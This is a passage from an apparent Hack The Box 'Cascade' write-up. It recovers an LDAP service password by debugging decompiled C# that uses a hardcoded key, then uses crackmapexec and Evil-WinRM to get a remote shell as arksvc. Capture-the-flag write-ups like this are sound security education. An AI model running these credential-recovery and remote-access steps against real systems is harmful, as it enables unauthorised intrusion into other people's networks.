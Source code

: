 ```csharp
                  password = Crypto.DecryptString(encryptedString, "c4scadek3y654321");
                }
                catch (Exception ex)
                {
                  Console.WriteLine("Error decrypting password: " + ex.Message);
                  return;
                }
              }
            }
            sqliteConnection.Close();
          }
          catch (Exception ex2)
          {
            Console.WriteLine("Error getting LDAP connection data From database: " + ex2.Message);
            return;
          }
...[snip]...

```

The `CascAudiot` function is opening an SQLite connection to the database passed as an arg, reading from the LDAP table, and decrypting the password.

I decided to recover the plaintext password by debugging. I put a breakpoint on line 44 where the password decrytption process in done. Then I went Debug -> Start Debugging…, and set the Arugument to where I had a copy of `Audit.db`:

![casc-3](https://github.com/darshannn10/HackTheBox/assets/87711310/475d6eaa-333e-4817-a31b-a9c8f46f6e49)

On hitting OK, it runs to the breakpoint, and I can see the decrypted password in the Locals window:

![casc-4](https://github.com/darshannn10/HackTheBox/assets/87711310/7b640d11-d150-4a35-b6f8-f0291badb162)

Based on the line in the SQLite DB, this password, `w3lc0meFr31nd`, likely pairs with the account arksvc.

```bash
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Cascade]
└─$ crackmapexec winrm 10.10.10.182 -u arksvc -p w3lc0meFr31nd
WINRM       10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
WINRM       10.10.10.182    5985   CASC-DC1         [+] CASCADE\arksvc:w3lc0meFr31nd (Pwn3d!)
```

Getting a shell as user `arksvc`:

![casc-5](https://github.com/darshannn10/HackTheBox/assets/87711310/6a6b45eb-6811-4f52-b92a-9200e41f5d3c)

Enumerating the user `arksvc`: 

```bash
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Cascade]
└─$ *Evil-WinRM* PS C:\> net user arksvc
User name                    arksvc
Full Name                    ArkSvc
Comment
User's comment
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/9/2020 5:18:20 PM
Password expires             Never
Password changeable          1/9/2020 5:18:20 PM
Password required            Yes
User may change password     No

```